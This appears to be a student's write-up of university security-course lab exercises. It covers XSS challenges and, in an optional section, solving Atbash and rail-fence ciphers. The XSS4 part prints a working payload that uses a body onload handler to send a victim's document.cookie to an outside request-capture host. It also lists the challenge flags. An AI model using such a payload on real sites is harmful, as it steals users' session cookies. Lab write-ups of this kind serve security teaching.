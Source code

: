 COMP6841{YoU_XSSd_aN_1m4g3_7ag???}

### XSS4

Although I initially solved this using the vulnerability described above, I once again went back to solve it "properly". In this activity, the search page is back, except with script and image tags disabled, as well as the onerror field. A quick Google search led me to the [OWASP XSS page](https://owasp.org/www-community/attacks/xss/), which listed`<body onload=alert(1)`as an alternate method. From here, I encoded the url `http://xss4.comp6841.xyz/search?q=<body onload=document.location="https:/eno1i2k0dctxq.x.pipedream.net/?q="%2Bdocument.cookie>test</body>`to be sent as a complaint for another user to open and steal their cookies / flag :)

COMP6841{Al1_th15_w0rk_4_nO_p4yOu7???}



Note: Redirect link - use RequestBin

# Optional

## Classical Ciphers

<u>My ciphertext: HVMWSVOKKOH</u>

An Atbash cipher is a type of monoalphabetic substitution cipher where the characters a-z are mapped to its reverse z-a. 

<u>Zainab's ciphertext: YEZHYORAIADARUWRR</u>
Key: 3 rails

In a rail fence cipher, plain text is encoded diagonally on alternating vertical directions on successive "rails" of an imaginary fence. Noticing that there are 17 characters in the cipher text, I figured out that the number of diagonal lines is by (n - 1) / (r - 1) where n is the number of characters and r is the number of rails, so there are 8 diagonal lines. Writing the cipher text out row by row, and reading it by following the purple arrows, I extract the original message: YOUREAWIZARDHARRY. 

<img src="images/railfence.jpeg" alt="railfence" style="zoom:50%;" />
